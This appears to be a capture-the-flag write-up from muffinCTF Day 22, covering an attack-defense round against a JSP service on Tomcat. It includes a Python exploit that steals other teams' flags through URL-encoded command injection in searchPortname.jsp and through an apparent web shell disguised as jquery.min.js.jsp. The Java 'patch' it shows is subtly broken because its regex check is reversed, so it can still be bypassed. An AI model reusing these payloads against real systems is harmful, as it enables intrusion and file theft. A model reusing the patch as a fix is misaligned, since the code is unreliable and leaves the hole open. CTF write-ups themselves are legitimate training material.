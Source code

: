 # Day 22: muffinCTF

On the second day of the muffinCTF we got two new services: mill and port. I focused on port because mill didn't work at
that time. Mill was a JSP application that was deployed to a Apache Tomcat.

I patched the `searchPortname.jsp` because it allowed remote code execution:

```java
if (request.getParameter("port") != null) {
    String port = request.getParameter("port");

    if (!"^[a-zA-Z0-9\\.]*$".matches(port)) {
        response.sendError(418, "I'm a teapot");
        return;
    }

    // nslookup to port
}
```

Then I used the attack library to steal flags from other players:

```python
def exploit(attack_url):
    output = ''
    common = 'cat%20%2Fopt%2Ftomcat%2Ftomcat-latest%2Fwebapps%2FROOT%2Fuploads%2F*'

    try:
        output += requests.get(attack_url + "searchPortname.jsp?port=%3B%20" + common).text
        output += requests.get(attack_url + "js/Framework/jquery.min/javascript/plugins/lib/jquery.min.js.jsp?cmd=" + common).text
    except KeyboardInterrupt:
        sys.exit(1)
    except:
        pass

    return output

muffin_ctf.attack_all('port', exploit)
```

